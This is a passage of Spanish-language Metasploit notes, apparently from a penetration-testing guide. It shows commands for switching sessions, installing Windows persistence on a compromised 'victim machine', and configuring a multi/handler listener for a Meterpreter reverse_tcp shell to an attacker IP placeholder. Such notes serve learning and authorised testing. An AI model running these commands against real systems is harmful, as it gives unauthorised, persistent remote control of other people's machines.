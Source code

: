 ```bash 
❯ sessions <id>              # Migras a alguna sesion que tenemos en segundo plano
```

Persistencia = Ganar acceso a la maquina victima cada cierto tiempo por si se pierde una conexión 
```bash 
❯ search persistence                                     # Miramos todos los modulos de persistencia
❯ search persistence platform:"windows"                  # Miramos los modulos de persistencia para Windows

❯ use exploit/windows/local/persistence_service          # Usamos un modulo de persistencia
❯ show options                                           # Este modulo nos pide una sesion ya establecida con la maquina victima
❯ set SESSION <id session>                               # Colocamos el id de la sesion que ya tenemos establecida anteriormente
❯ run 
```

Configuración del 'Listener' para las sesiones de persistencia 
```bash 
❯ use exploit/multi/handler                              # Usaremos el exploit
❯ show options 
❯ set payload windows/meterpreter/reverse_tcp            # Configuramos un payload dedicado a Windows 
❯ set LHOST <IP Atacante>                                # Configuramos nuestra IP
❯ run
```

